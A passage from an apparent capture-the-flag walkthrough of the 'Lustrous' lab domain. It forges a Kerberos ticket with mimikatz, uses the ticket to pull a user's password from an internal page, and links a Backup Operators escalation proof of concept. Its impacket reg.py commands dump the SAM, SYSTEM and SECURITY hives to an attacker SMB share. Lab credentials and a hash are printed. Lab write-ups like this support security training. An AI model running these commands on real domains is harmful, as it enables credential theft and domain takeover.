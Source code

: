 <img src="https://i.imgur.com/ElVfnsm.png"/>

```powershell
kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /target:LusDC.lustrous.vl /id:1114 /service:http/lusdc.lustrous.vl /ptt
```

<img src="https://i.imgur.com/TSTPs8j.png"/>
Running `klist` we'll see that the ticket is loaded into the memory

<img src="https://i.imgur.com/34HtOjz.png"/>
With `Invoke-WebRequest` we can can access the `Internal` endpoint showing the password for tony.ward

```powershell
Invoke-WebRequest -Uri http://lusdc.lustrous.vl/Internal -UseDefaultCredentials -UseBasicParsing | Select-Object -Expand Content
```

<img src="https://i.imgur.com/82aHerr.png"/>

## From Backup Operators To Domain Admin 

Since tony.ward is a member of backup operators, which has `SeBackup` and `SeRestore` privilege which can allow the group members to access any file so here we can take a backup of `ntds.dit`  but we can't get a remote shell with this user

<img src="https://i.imgur.com/1rdazpS.png"/>

However we can use the PoC https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp which is made by Filip Dragovic, just replace credentials and add the DC host

<img src="https://i.imgur.com/O51AT7q.png"/>
<img src="https://i.imgur.com/k8ZFNyU.png"/>

But to my surprise this didn't worked

<img src="https://i.imgur.com/9HYqhY7.png"/>

Using `reg.py` from impacket which is for querying remote registry, we can dump `SAM`, `SYSTEM` and `SECURITY` files from registry hive

```bash
reg.py lustrous.vl/tony.ward:U_cPVQqEI50i1X@10.10.233.213 save -keyName 'HKLM\SAM' -o '\\10.8.0.136\UWU'
reg.py lustrous.vl/tony.ward:U_cPVQqEI50i1X@10.10.233.213 save -keyName 'HKLM\SYSTEM' -o '\\10.8.0.136\UWU'
reg.py lustrous.vl/tony.ward:U_cPVQqEI50i1X@10.10.233.213 save -keyName 'HKLM\SECURITY' -o '\\10.8.0.136\UWU'
```

<img src="https://i.imgur.com/52jB75F.png"/>
<img src="https://i.imgur.com/IqBYo8d.png"/>
